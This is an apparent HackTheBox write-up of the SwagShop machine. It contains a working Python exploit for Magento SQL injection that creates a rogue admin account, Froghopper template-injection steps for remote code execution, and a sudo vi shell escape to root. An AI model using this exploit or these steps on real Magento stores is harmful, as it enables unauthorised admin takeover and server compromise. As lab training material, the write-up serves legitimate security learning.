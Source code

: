 ```yaml
---
title: HackTheBox - SwagShop
categories: htb Froghopper RCE SQLI
excerpt: | 
   Unicode is an easy difficulty Linux machine.

feature_text: |
  ## SwagShop - Easy 
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
```
      ___ ___                
    /| |/|\| |\          We are open!  (Almost)
     |   |.  |       Join the beta HTB Swag Store!
     |___|.__|       PS: Use rootflag as password! 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine begins with the enumeration of a webserver. It will redirect to swagshop.htb domain. Adding this to the /etc/hosts list, the main page will resolve good.

After look at the main page, an attacker would do a brute force enumeration of directories with `wfuzz`. This tool will report all combinations with successful status code. Examine all of them. There would be a possible risk in shell directory... Any ways, it seems impossible to penetrate, but look for vulnerabilities reported of Magento with `searchsploit` and there is an RCE. This one has some mistake so here you can see it edited:

``` python
import requests
import base64
import sys

target = "http://swagshop.htb/index.php/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""
query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query).encode('utf-8')

r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print ("WORKED")
    print ("Check {0}/admin with creds forme:forme".format(target))
else:
    print ("DID NOT WORK")

```
This script will create a new admin user with a SQLI.

### Exploit vulnerabilities
Once the attacker is inside the web as Administrator, he can exploit a *Froghopper* vulnerability. [This](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper) is a tutorial where you'll learn about it. 

The Froghopper attack methodology is available in some unpathed versions of Magento 1. 

Firstly, the attacker can upload a file to the system. There are some extensions that are allowed. JPG and PNG are avaible. 

However, the system will not examine the content of this file, and in a typical Magneto configuration, files are uploaded and stored in a publicly accessible directory `media/catalog/category`.
Only the attacker needs is to launch this malicius file. In Magento is possible to upload a new template and execute block of command if you are admin... So, that's all.

Step by step:
1. Create an image with some malicios code at ends.
2. Upload it to the new category page. (Catalog > Manage Categories)
3. Generate a new template (Newsletter > Newsletter Template), include the next block of template code between \{\{...\}\}:
`block type='core/template' template='../../../../../../media/catalog/category/malicius_image.jpg'`
4. Finally see the results with the `Preview Template` Button.


### Privilege Scalation
Look for privilege: sudo -l.
> (root) NOPASSWD: /usr/bin/vi /var/www/html/\*

www-data can execute vi command as root in `/var/www/html/`. 
1. `sudo vi /var/www/html/notfound`
2. :set shell=/bin/bash
3. :shell
You get it! 
